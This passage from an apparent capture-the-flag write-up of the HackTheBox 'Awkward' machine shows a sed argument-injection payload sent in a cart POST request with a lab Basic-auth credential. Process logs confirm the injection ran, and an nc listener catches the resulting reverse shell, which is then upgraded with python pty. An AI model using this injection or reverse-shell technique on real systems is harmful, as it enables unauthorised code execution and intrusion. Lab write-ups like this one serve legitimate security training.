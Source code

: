We command inject `-e "1e /dev/shm/test.sh"` into the item_id, firstly ensuring that the cart file exists for our user id (by adding something so it exists in `/var/www/store/cart`).  Note the `/dev/shm/test2.txt` file that sed will run against, so it doesn't bomb out. I ensured this file existed first:

```
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://store.hat-valley.htb/cart.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 99
Origin: http://store.hat-valley.htb
DNT: 1
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close 
item=1/d' -e "1e /dev/shm/test.sh" /dev/shm/test2.txt '/&user=59ab-bdec-f4c-c29c&action=delete_item
```

Process spy shows our command injection worked, and we have a shell!:

```
2023/02/05 08:18:05 CMD: UID=33   PID=52825  | sh -c sed -i '/item_id=1/d' -e "1e /dev/shm/test.sh" /dev/shm/test2.txt '//d' /var/www/store/cart/59ab-bdec-f4c-c29c 
2023/02/05 08:18:05 CMD: UID=33   PID=52827  | sh -c /dev/shm/test.sh 
2023/02/05 08:18:05 CMD: UID=33   PID=52826  | sed -i /item_id=1/d -e 1e /dev/shm/test.sh /dev/shm/test2.txt //d /var/www/store/cart/59ab-bdec-f4c-c29c 
2023/02/05 08:18:05 CMD: UID=33   PID=52828  | /usr/bin/bash /dev/shm/test.sh 
2023/02/05 08:18:05 CMD: UID=33   PID=52829  | /usr/bin/bash /dev/shm/test.sh 
```

Let's get a full, proper interactive shell using python:

```bash
$nc -lvnp 3322
listening on [any] 3322 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.185] 41522
bash: cannot set terminal process group (1334): Inappropriate ioctl for device
bash: no job control in this shell
www-data@awkward:~/store$
www-data@awkward:~/store$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@awkward:~/store$ ^Z
www-data@awkward:~/store$ 

```

While running process spy to check my command injection, I also noticed a root (UID=0) cron job running:

```
2023/02/05 18:40:01 CMD: UID=0    PID=57039  | mail -s Leave Request: bean.hill christine 
2023/02/05 18:40:01 CMD: UID=0    PID=57041  | /usr/sbin/sendmail -oi -f root@awkward -t 
2023/02/05 18:40:01 CMD: UID=0    PID=57042  | /usr/sbin/postdrop -r 
2023/02/05 18:40:01 CMD: UID=0    PID=57043  | cleanup -z -t unix -u -c 
2023/02/05 18:40:01 CMD: UID=0    PID=57049  | mail -s Leave Request: bean.hill christine 
2023/02/05 18:40:01 CMD: UID=0    PID=57050  | trivial-rewrite -n rewrite -t unix -u -c 
2023/02/05 18:40:01 CMD: UID=0    PID=57051  | /usr/sbin/sendmail -oi -f root@awkward -t 
2023/02/05 18:40:01 CMD: UID=0    PID=57053  | /usr/sbin/postdrop -r 

```
